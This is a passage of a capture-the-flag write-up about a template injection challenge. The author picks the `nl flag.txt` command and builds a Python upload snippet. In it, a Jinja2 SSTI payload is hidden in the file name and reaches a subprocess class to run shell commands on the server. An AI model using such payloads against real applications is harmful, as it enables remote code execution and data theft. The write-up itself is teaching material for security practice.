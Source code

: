 ![Untitled](images/Untitled%2019.png)

I tried using `od` but damn, it’s pretty bad cause it’s in pretty rough format.

![Untitled](images/Untitled%2020.png)

What about `nl flag.txt`?

![Untitled](images/Untitled%2021.png)

Much better! Let’s see if it passes the filters. Modifying the code a little to the following and running it

```python
...
files = {
    'file' : ("{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[394]('nl flag.txt', shell=True, stdout=-1).communicate()[0].decode()}}.exe", '123')
}
...
```
